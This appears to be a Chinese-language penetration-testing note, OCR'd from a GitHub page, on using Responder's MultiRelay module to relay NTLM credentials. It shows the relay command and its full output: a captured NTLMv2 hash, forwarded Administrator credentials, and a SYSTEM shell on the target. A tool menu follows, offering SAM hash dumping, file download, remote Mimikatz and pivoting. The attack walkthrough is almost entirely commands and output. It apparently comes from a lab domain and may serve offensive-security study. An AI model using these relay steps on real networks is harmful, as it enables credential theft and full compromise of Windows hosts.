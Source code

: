 * 利用 Responder 的 MultiRelay 模块获取 shell

运行 MultiRelay 后，高权限主机随便执行 net use 即可，比如执行 net use \\\\aaa

```ini
➜  tools git:(master) ✗ sudo python MultiRelay.py -t 10.11.11.7 -u ALL

Responder MultiRelay 2.0 NTLMv1/2 Relay

Send bugs/hugs/comments to: laurent.gaffie@gmail.com
Usernames to relay (-u) are case sensitive.
To kill this script hit CTRL-C.

/*
Use this script in combination with Responder.py for best results.
Make sure to set SMB and HTTP to OFF in Responder.conf.

This tool listen on TCP port 80, 3128 and 445.
For optimal pwnage, launch Responder only with these 2 options:
-rv
Avoid running a command that will likely prompt for information like net use, etc.
If you do so, use taskkill (as system) to kill the process.
*/

Relaying credentials for these users:
['ALL']


Retrieving information for 10.11.11.7...
SMB signing: False
Os version: 'Windows 7 Professional 7601 Service Pack 1'
Hostname: 'WIN7'
Part of the 'TEST' domain
[+] Setting up SMB relay with SMB challenge: fb5db119d38f2d0d
[+] Received NTLMv2 hash from: 10.11.11.5
[+] Client info: ['Windows Server 2008 R2 Enterprise 7600', domain: 'TEST', signing:'True']
[+] Username: Administrator is whitelisted, forwarding credentials.
[+] SMB Session Auth sent.
[+] Looks good, Administrator has admin rights on C$.
[+] Authenticated.
[+] Dropping into Responder's interactive shell, type "exit" to terminate

Available commands:
dump               -> Extract the SAM database and print hashes.
regdump KEY        -> Dump an HKLM registry key (eg: regdump SYSTEM)
read Path_To_File  -> Read a file (eg: read /windows/win.ini)
get  Path_To_File  -> Download a file (eg: get users/administrator/desktop/password.txt)
delete Path_To_File-> Delete a file (eg: delete /windows/temp/executable.exe)
upload Path_To_File-> Upload a local file (eg: upload /home/user/bk.exe), files will be uploaded in \windows\temp\
runas  Command     -> Run a command as the currently logged in user. (eg: runas whoami)
scan /24           -> Scan (Using SMB) this /24 or /16 to find hosts to pivot to
pivot  IP address  -> Connect to another host (eg: pivot 10.0.0.12)
mimi  command      -> Run a remote Mimikatz 64 bits command (eg: mimi coffee)
mimi32  command    -> Run a remote Mimikatz 32 bits command (eg: mimi coffee)
lcmd  command      -> Run a local command and display the result in MultiRelay shell (eg: lcmd ifconfig)
help               -> Print this message.
exit               -> Exit this shell and return in relay mode.
                      If you want to quit type exit and then use CTRL-C

Any other command than that will be run as SYSTEM on the target.

Connected to 10.11.11.7 as LocalSystem.
C:\Windows\system32\:#whoami
```